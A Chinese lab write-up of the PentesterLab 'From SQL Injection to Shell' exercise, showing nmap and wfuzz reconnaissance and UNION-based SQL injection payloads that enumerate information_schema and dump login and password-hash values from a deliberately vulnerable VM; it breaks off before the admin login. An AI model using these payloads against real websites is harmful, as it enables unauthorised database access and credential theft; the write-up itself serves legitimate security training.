### 实验七 从SQL注入到Shell

---

### BASIS

- **SQL 注入的基本步骤：**

  1）找到注入点，判断注入类型

  2）获取数据库名称

  3）获取数据库下的数据表名

  4）获取当前数据库下的字段名

  5）获取需要的数据


- **常用的系统函数：**

  ```
  version()				# MySQL版本
  user()					# 数据库用户名
  database()				# 数据库名称
  @@datadir				# 数据库路径
  @@version_compile_os	# 操作系统版本
  ```


### Step 0 : 配置运行环境

　　1) . Click [here](https://pentesterlab.com/exercises/from_sqli_to_shell) , 开启 **pentesterlab From SQL Injection to Shell** 课程的主页。

　　2) . 在主页的 ISO 下面点击 **here**，下载实验所需镜像。附图:

​	


　　3) . 镜像下载完成，打开Oracle VM VirtualBox 创建虚拟机并挂载镜像。

　　　[*]  选择系统为 Linux ubuntu 32 bit.

　　　**[*]**  **创建使用 VDI ( VirtualBox 磁盘映像).**

　　　[*]  网络选择 host-Only , 使用 DHCP 自动分配.

　　4) . 启动虚拟机。启动完成后，使用 **ifconfig** 指令获取服务器IP地址，**e.g. 192.168.55.3**。

　　5) . 宿主机打开浏览器，访问 IP，如果访问成功，显示页面如下：




### Step 1: 端口扫描

主要目的是为了获得一些基本信息。使用 nmap 扫描可用端口：

```
nmap -A 192.168.55.3
```

扫描结果如下：



nc 尝试连接端口80：

```
nc 192.168.55.3 80
```

在 Terminal 发送以下指令：

```
GET / HTTP/1.1
```

返回结果如下：


nc 尝试连接端口22：

```
nc 192.168.55.3 22
```




### Step 2 : wfuzz 爆破

 使用 wfuzz 枚举网站下的页面。Kali 自带 wfuzz，wfuzz 也提供了字典，不需要再使用 crunch 生成可用的字典。 输入以下指令：

```
wfuzzwfuzz -c -z file,usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://192.168.55.3/FUZZ
```




### Step 3 : 手工注入

**1).  观察网页内容**


依次点击导航栏上面的选项，地址栏显示如下：

```
home: http://192.168.55.3/
test: http://192.168.55.3/cat.php?id=1
ruxcon: http://192.168.55.3/cat.php?id=2
2010: http://192.168.55.3/cat.php?id=3
All pictures: http://192.168.55.3/all.php
Admin: http://192.168.55.3/admin/login.php
```

前面 5 个页面都是返回图片标题和图片，传入的参数也很有规律，可能能进行注入攻击。最后一个页面是一个登录页面：



题目要求：

```
This course details the exploitation of SQL injection in a PHP based website and how an attacker can use it to gain access to the administration pages.
Then, using this access, the attacker will be able to gain code execution on the server.
```

大致思路应该是更改之前地址栏中的 id 参数值，进行 SQL 注入，拿到 admin 的密码，解密后进行登录。


**2）找到注入点，尝试简单注入**

从最有问题的地址栏进行尝试：

```
http://192.168.55.3/cat.php?id=1'
```



```
http://192.168.55.3/cat.php?id=1%22
```



```
http://192.168.55.3/cat.php?id=1%20and%201=1
```



```
http://192.168.55.3/cat.php?id=1%20and%201=0
```



从后面的两次结果，判读不需要考虑单双引号的问题。后面尝试了一些系统函数，发现也不存在对这些特殊函数的过滤。


**3）获取数据库名称**

尝试多次注入，发现只有图像位置处的回显数据一直在改变。

确定思路：**找到表的列数 => 找到回显数据所在的列数 => 使用系统函数在该列显示数据库的名称**

- **找到表的列数**：使用 order by **num**。地址栏中输入以下数据（空格会自动 URLencode）

  ```
  http://192.168.55.3/cat.php?id=1 order by 0
  http://192.168.55.3/cat.php?id=1 order by 1
  http://192.168.55.3/cat.php?id=1 order by 2
  http://192.168.55.3/cat.php?id=1 order by 3
  http://192.168.55.3/cat.php?id=1 order by 4
  http://192.168.55.3/cat.php?id=1 order by 5
  ..........
  ```

显示结果：





.............................................................................................................



显然，表有 4 列。


- **找到回显数据所在的列数:** 使用联合查询。地址栏中输入以下：

  ```
  http://192.168.55.3/cat.php?id=1 union select 1,2,3,4
  ```

  回显结果：

  

  显然回显结果在第 2 列的位置。


- **使用系统函数在该列显示数据库的名称**

  这里直接查找所有的基本信息。地址栏输入：

  ```
  http://192.168.55.3/cat.php?id=1 union select 1,database(),3,4
  http://192.168.55.3/cat.php?id=1 union select 1,user(),3,4
  http://192.168.55.3/cat.php?id=1 union select 1,version(),3,4
  ```

  得到的输出信息，这里不再逐一截图：

  ```
  database: photoblog
  user: pentesterlab@localhost
  version: 5.1.63-0+squeeze1
  ```


**4）获取数据库下的数据表名**

常规的 SQL 查表名称：

```mysql
select table_name from information_schema.tables where table_schema='database_name' and table_type='base table';
```

为了防止引号的影响，这里去除 where 的筛选条件。因此，在地址栏中输入：

```
http://192.168.55.3/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
```

所有表名都会在第二列中显示，显示结果如下（图片太长，这里给出文本）：

```
Picture: CHARACTER_SETS

CHARACTER_SETS
Picture: COLLATIONS

COLLATIONS
Picture: COLLATION_CHARACTER_SET_APPLICABILITY

COLLATION_CHARACTER_SET_APPLICABILITY
Picture: COLUMNS

COLUMNS
Picture: COLUMN_PRIVILEGES

COLUMN_PRIVILEGES
Picture: ENGINES

ENGINES
Picture: EVENTS

EVENTS
Picture: FILES

FILES
Picture: GLOBAL_STATUS

GLOBAL_STATUS
Picture: GLOBAL_VARIABLES

GLOBAL_VARIABLES
Picture: KEY_COLUMN_USAGE

KEY_COLUMN_USAGE
Picture: PARTITIONS

PARTITIONS
Picture: PLUGINS

PLUGINS
Picture: PROCESSLIST

PROCESSLIST
Picture: PROFILING

PROFILING
Picture: REFERENTIAL_CONSTRAINTS

REFERENTIAL_CONSTRAINTS
Picture: ROUTINES

ROUTINES
Picture: SCHEMATA

SCHEMATA
Picture: SCHEMA_PRIVILEGES

SCHEMA_PRIVILEGES
Picture: SESSION_STATUS

SESSION_STATUS
Picture: SESSION_VARIABLES

SESSION_VARIABLES
Picture: STATISTICS

STATISTICS
Picture: TABLES

TABLES
Picture: TABLE_CONSTRAINTS

TABLE_CONSTRAINTS
Picture: TABLE_PRIVILEGES

TABLE_PRIVILEGES
Picture: TRIGGERS

TRIGGERS
Picture: USER_PRIVILEGES

USER_PRIVILEGES
Picture: VIEWS

VIEWS
Picture: categories

categories
Picture: pictures

pictures
Picture: users

users
```

在表名中，有许多都是系统表。users 最可能是需要的表名，接下来的操作首先是针对 users。


**4）获取当前数据库下的字段名**

常规的 SQL查询当前数据库下的字段名：

```mysql
select column_name from information_schema.columns where table_schema='database_name' and table_name='table_name';
```

但是需要知道字段是属于哪个表的，因此使用以下查询：

```
http://192.168.55.3/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
```

查询结果和上面的结果相似，共 900  多行，这里用 python 做一个简单的数据处理：

```
表名：CHARACTER_SETS		字段名:CHARACTER_SET_NAME MAXLEN DEFAULT_COLLATE_NAME DESCRIPTION 

表名：COLLATIONS		字段名:CHARACTER_SET_NAME IS_COMPILED ID COLLATION_NAME SORTLEN IS_DEFAULT 

表名：COLLATION_CHARACTER_SET_APPLICABILITY		字段名:CHARACTER_SET_NAME COLLATION_NAME 

表名：COLUMNS		字段名:EXTRA TABLE_CATALOG CHARACTER_OCTET_LENGTH COLLATION_NAME COLUMN_DEFAULT NUMERIC_PRECISION PRIVILEGES ORDINAL_POSITION CHARACTER_MAXIMUM_LENGTH COLUMN_TYPE COLUMN_COMMENT COLUMN_KEY CHARACTER_SET_NAME TABLE_SCHEMA COLUMN_NAME DATA_TYPE NUMERIC_SCALE IS_NULLABLE TABLE_NAME 

表名：COLUMN_PRIVILEGES		字段名:COLUMN_NAME TABLE_CATALOG GRANTEE PRIVILEGE_TYPE IS_GRANTABLE TABLE_NAME TABLE_SCHEMA 

表名：ENGINES		字段名:SUPPORT COMMENT TRANSACTIONS XA SAVEPOINTS ENGINE 

表名：EVENTS		字段名:ON_COMPLETION EVENT_CATALOG INTERVAL_FIELD EVENT_NAME CREATED ENDS EXECUTE_AT SQL_MODE STARTS DATABASE_COLLATION EVENT_SCHEMA COLLATION_CONNECTION EVENT_TYPE INTERVAL_VALUE LAST_EXECUTED ORIGINATOR DEFINER TIME_ZONE LAST_ALTERED CHARACTER_SET_CLIENT EVENT_COMMENT EVENT_BODY EVENT_DEFINITION STATUS 

表名：FILES		字段名:AUTOEXTEND_SIZE AVG_ROW_LENGTH TABLE_CATALOG CHECK_TIME EXTRA INITIAL_SIZE FILE_TYPE DELETED_ROWS VERSION INDEX_LENGTH FULLTEXT_KEYS DATA_LENGTH UPDATE_TIME LAST_ACCESS_TIME FILE_ID LOGFILE_GROUP_NUMBER CREATE_TIME ROW_FORMAT RECOVER_TIME LOGFILE_GROUP_NAME MAXIMUM_SIZE UPDATE_COUNT MAX_DATA_LENGTH TABLE_SCHEMA FILE_NAME CHECKSUM TABLE_ROWS TRANSACTION_COUNTER TABLESPACE_NAME FREE_EXTENTS CREATION_TIME LAST_UPDATE_TIME DATA_FREE TOTAL_EXTENTS EXTENT_SIZE STATUS TABLE_NAME ENGINE 

表名：GLOBAL_STATUS		字段名:VARIABLE_NAME VARIABLE_VALUE 

表名：GLOBAL_VARIABLES		字段名:VARIABLE_NAME VARIABLE_VALUE 

表名：KEY_COLUMN_USAGE		字段名:COLUMN_NAME TABLE_CATALOG CONSTRAINT_SCHEMA REFERENCED_TABLE_NAME ORDINAL_POSITION REFERENCED_COLUMN_NAME REFERENCED_TABLE_SCHEMA CONSTRAINT_CATALOG CONSTRAINT_NAME TABLE_NAME TABLE_SCHEMA POSITION_IN_UNIQUE_CONSTRAINT 

表名：PARTITIONS		字段名:AVG_ROW_LENGTH TABLE_CATALOG CHECK_TIME INDEX_LENGTH DATA_LENGTH UPDATE_TIME PARTITION_DESCRIPTION PARTITION_METHOD NODEGROUP PARTITION_ORDINAL_POSITION SUBPARTITION_ORDINAL_POSITION CREATE_TIME PARTITION_NAME PARTITION_COMMENT MAX_DATA_LENGTH SUBPARTITION_EXPRESSION TABLE_SCHEMA CHECKSUM TABLE_ROWS SUBPARTITION_NAME TABLESPACE_NAME PARTITION_EXPRESSION SUBPARTITION_METHOD DATA_FREE TABLE_NAME 

表名：PLUGINS		字段名:PLUGIN_AUTHOR PLUGIN_STATUS PLUGIN_LIBRARY_VERSION PLUGIN_LICENSE PLUGIN_NAME PLUGIN_TYPE_VERSION PLUGIN_TYPE PLUGIN_DESCRIPTION PLUGIN_VERSION PLUGIN_LIBRARY 

表名：PROCESSLIST		字段名:USER DB STATE ID INFO HOST TIME COMMAND 

表名：PROFILING		字段名:STATE DURATION MESSAGES_SENT SOURCE_FUNCTION SEQ SOURCE_FILE BLOCK_OPS_IN BLOCK_OPS_OUT SWAPS CONTEXT_VOLUNTARY QUERY_ID PAGE_FAULTS_MINOR MESSAGES_RECEIVED SOURCE_LINE CPU_SYSTEM PAGE_FAULTS_MAJOR CONTEXT_INVOLUNTARY CPU_USER 

表名：REFERENTIAL_CONSTRAINTS		字段名:CONSTRAINT_SCHEMA REFERENCED_TABLE_NAME UNIQUE_CONSTRAINT_NAME CONSTRAINT_CATALOG UNIQUE_CONSTRAINT_CATALOG UPDATE_RULE DELETE_RULE MATCH_OPTION UNIQUE_CONSTRAINT_SCHEMA CONSTRAINT_NAME TABLE_NAME 

表名：ROUTINES		字段名:ROUTINE_NAME SECURITY_TYPE ROUTINE_BODY PARAMETER_STYLE CREATED SQL_MODE EXTERNAL_NAME DTD_IDENTIFIER ROUTINE_TYPE DATABASE_COLLATION ROUTINE_SCHEMA ROUTINE_COMMENT IS_DETERMINISTIC COLLATION_CONNECTION ROUTINE_DEFINITION SQL_DATA_ACCESS DEFINER ROUTINE_CATALOG SPECIFIC_NAME LAST_ALTERED CHARACTER_SET_CLIENT EXTERNAL_LANGUAGE SQL_PATH 

表名：SCHEMATA		字段名:SCHEMA_NAME DEFAULT_COLLATION_NAME DEFAULT_CHARACTER_SET_NAME CATALOG_NAME SQL_PATH 

表名：SCHEMA_PRIVILEGES		字段名:TABLE_CATALOG GRANTEE PRIVILEGE_TYPE IS_GRANTABLE TABLE_SCHEMA 

表名：SESSION_STATUS		字段名:VARIABLE_NAME VARIABLE_VALUE 

表名：SESSION_VARIABLES		字段名:VARIABLE_NAME VARIABLE_VALUE 

表名：STATISTICS		字段名:COLUMN_NAME TABLE_CATALOG COLLATION TABLE_NAME CARDINALITY INDEX_TYPE PACKED SEQ_IN_INDEX SUB_PART COMMENT INDEX_NAME NULLABLE NON_UNIQUE TABLE_SCHEMA INDEX_SCHEMA 

表名：TABLES		字段名:AVG_ROW_LENGTH TABLE_CATALOG CHECK_TIME VERSION INDEX_LENGTH UPDATE_TIME DATA_LENGTH TABLE_COLLATION TABLE_TYPE CREATE_TIME ROW_FORMAT MAX_DATA_LENGTH TABLE_SCHEMA CHECKSUM CREATE_OPTIONS TABLE_COMMENT TABLE_ROWS AUTO_INCREMENT DATA_FREE TABLE_NAME ENGINE 

表名：TABLE_CONSTRAINTS		字段名:CONSTRAINT_SCHEMA CONSTRAINT_TYPE CONSTRAINT_CATALOG CONSTRAINT_NAME TABLE_NAME TABLE_SCHEMA 

表名：TABLE_PRIVILEGES		字段名:TABLE_CATALOG GRANTEE PRIVILEGE_TYPE IS_GRANTABLE TABLE_NAME TABLE_SCHEMA 

表名：TRIGGERS		字段名:EVENT_MANIPULATION EVENT_OBJECT_CATALOG ACTION_REFERENCE_OLD_TABLE TRIGGER_SCHEMA CREATED ACTION_REFERENCE_NEW_TABLE TRIGGER_NAME EVENT_OBJECT_TABLE SQL_MODE ACTION_REFERENCE_NEW_ROW TRIGGER_CATALOG DATABASE_COLLATION ACTION_CONDITION COLLATION_CONNECTION EVENT_OBJECT_SCHEMA ACTION_ORIENTATION ACTION_REFERENCE_OLD_ROW DEFINER ACTION_STATEMENT ACTION_ORDER CHARACTER_SET_CLIENT ACTION_TIMING 

表名：USER_PRIVILEGES		字段名:PRIVILEGE_TYPE TABLE_CATALOG GRANTEE IS_GRANTABLE 

表名：VIEWS		字段名:TABLE_CATALOG COLLATION_CONNECTION SECURITY_TYPE CHARACTER_SET_CLIENT IS_UPDATABLE VIEW_DEFINITION CHECK_OPTION DEFINER TABLE_NAME TABLE_SCHEMA 

表名：categories		字段名:title id 

表名：pictures		字段名:cat img title id 

表名：users		字段名:password id login 

```

数据处理代码：

```python 
table = dict()
with open(文件路径) as f:
    for line in f.readlines():
        line = line.strip('\n')
        if not line:
            pass
        else:
            line = line.replace(' ','').split(':')
            if len(line) == 3:
                if line[1] not in table.keys():
                    table[line[1]] = set()
                table[line[1]].add(line[2])
            elif len(line) == 2:
                if line[0] not in table.keys():
                    table[line[0]] = set()
                table[line[0]].add(line[1])
for key,values in table.items():
    print("表名："+ str(key) + "\t\t字段名:",end='')
    for value in values:
        print(value,end=' ')
    print('\n')
```

可以清楚的看到，users 字段有 password、id、login。


**5）获取需要的数据**

使用上面相同的方法：

```mysql
http://192.168.55.3/cat.php?id=1 UNION SELECT 1,concat(password,'>',id,'>',login),3,4 FROM users
```

结果如下：



个人第一感觉，password 是一个 md5 值，直接找一个在线解密 md5 的网站查询一下：

 

进入 admin 页面登录一下：

